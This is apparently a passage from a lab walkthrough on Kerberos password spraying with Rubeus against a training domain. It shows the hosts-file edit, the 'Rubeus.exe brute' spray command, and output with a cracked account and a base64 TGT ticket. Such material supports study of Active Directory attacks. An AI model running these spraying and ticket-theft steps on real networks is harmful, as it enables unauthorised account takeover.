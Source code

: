 ```
    ONMh7v98TTjsd1YgECAgQsmqDDKxDzo1l1aOevqfVkdFUy3BKoR6bmMwN4N43L162TK5ja/r///epfr8a9c9ikhaaybrXTlEE2kO
    wsM3yqzAQs5Mh09BDf//xvribOe7CXen49IrfGMOJcTGAHMkCOvQAp6TG3V2l7msz8nwm13VgNrpOpx0YZDQVAx6nkNZh3Hcle1f
    fffSASsE7CcFJdSrZ2Kd2BXDq4w9TRMHnSfsh3hhMW/WuWr1nXOKeamTRjmeH1YW+ddXwR243e6p2bjUzFEPCCnn3QI+NHj0lyN4
    aQ6QPGb0FgGeCvvrWAVPtwprPjHedg3RpoaVI6hToQ+GP9WSNXTKdpmjgfcwgfSgAwIBAKKB7ASB6X2B5jCB46CB4DCB3TCB2qAr
    MCmgAwIBEqEiBCDpt98eOdX8PNly63COrAxVnHqgmupzXKinVPAl1RBAY6ESGxBDT05UUk9MTEVSLkxPQ0FMohowGKADAgEBoREw
    DxsNQ09OVFJPTExFUi0xJKMHAwUAYKEAAKURGA8yMDIyMDkxMjA5MzY0MVqmERgPMjAyMjA5MTIxOTM2NDFapxEYDzIwMjIwOTE5
    MDkzNjQxWqgSGxBDT05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLkxPQ0FM
```

Rubeus can both brute force passwords as well as password spray user accounts. When brute-forcing passwords you use a single user account and a wordlist of passwords to see which password works for that given user account. In password spraying, you give a single password such as Password1 and "spray" against all found user accounts in the domain to find which one may have that password.

This attack will take a given Kerberos-based password and spray it against all found users and give a .kirbi ticket. This ticket is a TGT that can be used in order to get service tickets from the KDC as well as to be used in attacks like the pass the ticket attack.

Before password spraying with Rubeus, you need to add the domain controller domain name to the windows host file.

```
C:\Users\Administrator\Downloads> echo 10.10.79.220 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
C:\Users\Administrator\Downloads> Rubeus.exe brute /password:Password1 /noticket

[-] Blocked/Disabled user => Guest
[-] Blocked/Disabled user => krbtgt
[+] STUPENDOUS => Machine1:Password1
[*] base64(Machine1.kirbi):

      doIFWjCCBVagAwIBBaEDAgEWooIEUzCCBE9hggRLMIIER6ADAgEFoRIbEENPTlRST0xMRVIuTE9DQUyi
      JTAjoAMCAQKhHDAaGwZrcmJ0Z3QbEENPTlRST0xMRVIubG9jYWyjggQDMIID/6ADAgESoQMCAQKiggPx
      BIID7X5jDNej2iF5f1pJiq0CyaD/RNnxz3MLWVY0/KlZceZruw9O6eN4gptAKWdIbP1B8+FiBERdxF6R
      hSzgQLpd6buWMjZzY165bGBpGK9Dd3t989gboqKvD1wXon7I4CVFnaEW8TnSyUauPdMFYft8V+ilE7Kt
      M5C9PI9TSPJyaUkTOS0NZvqiNrWBuD4qq8rtQERSQADejaMfQibusIj4WkycUUxvMC4wXsAIMoEBD9YM
      Ta2ZJgBrbiZ98Gkg3nyHl4YQ0QK+wEYiN7T+/MPc6PLkijsMNsHVG41OmokxfKv3vXqmWdLqIScm7z2f
      5VB4q+MhrxL8RupeE5s2Q++mGtnuyyUHxaMHg7pwRsGuxAASAF6KfIGNMjoO82i7ui+1//8EEF7SstZX
      OOqh4wlSRdup5Xh8AxOj0u9Tzgw3ivIreqVP7VXtpRhwnvPrf3cENbNs4ENiCyIfVCWVXAnKYAnkf7gf
      WyTUEnODw0dP9MlHGglN6d8rrZWk9jEWISvInmgk+MrnXeALRwF8q134idvz3v2DxF5aULdM4HV02xIo
      VEY51+I4gxaTlEkuQsVPiJtcQeiuyX6OITsl4F6bkKd2OVIIQ1LdITDMJzuoIqbGM+kpuOEODBTctLRd
      7i6dsihQ+bZf6TWi6NJ4f/ZPDd9dTOOtjVaQvi3NlCjMBcZtsuRgC53ieiGq7/54P6ZqE5InZZK1mllM
      Gg2bryfL5uOyQu0mMfuXO7ZrhSqLoRiojF3KS/aTXOWT68GjmUQ+zLNmFcGjSz7gctroHxdz9SRiQezy
      KwnGMa8ijzvkrFuUiO0y2m7TicWigN795b30pmwBA38qN6DR5h9B1aiBoiSO8AuKRLnajMZXIfh95RUd
      78UCuOSF09MsDc5ipPlqoIpo3SvNzqGikeeIt4GSkV9Nfx5NbWXSvOoOz5slLtE0uivrrbmOzxydqkRE
      Y8215pLrqap/gUBuC7UcYszbUWQQpz4oRpzSrKhRECEar78AHaPEEoSNxNdbT991JJJF4IBbyQNLnKzG
      K5ZgQrsMNUW2hWDDVfhuFtAi4UwNoWyxWZDyeWnkq8/btVYx+XlaQsK0vO4TfIgCPPuXiEWWSWxQhQwO
      FN3NW5mzdvGMtPLS4qdzZuzx7FWTpLfQWFTMOKhbSuMDDYueVls/kexouBiZTB8zZ3+QQ+dmJUCwFUzu
      98CQyvuv5iDOzP5bsRxhSXlfvD6Dm+rIjL9jntbFwYyj588vpegMVaznikdmEJAumOHRrQgHBqBRhR5V
      al2bgh0y00Lo8zCjqy+c5CiQp+YFJi3+JeQIGKsqV2h4+cbhrxKIlnQqExawZJtpQKOB8jCB76ADAgEA
      ooHnBIHkfYHhMIHeoIHbMIHYMIHVoCswKaADAgESoSIEIKhyMZpMwU215u2/yya0NkPY1pJq3H9mhIzm
      fyqKZST1oRIbEENPTlRST0xMRVIuTE9DQUyiFTAToAMCAQGhDDAKGwhNYWNoaW5lMaMHAwUAQOEAAKUR
      GA8yMDIxMDYyOTE1NDYxMVqmERgPMjAyMTA2MzAwMTQ2MTFapxEYDzIwMjEwNzA2MTU0NjExWqgSGxBD
      T05UUk9MTEVSLkxPQ0FMqSUwI6ADAgECoRwwGhsGa3JidGd0GxBDT05UUk9MTEVSLmxvY2Fs



[+] Done
```
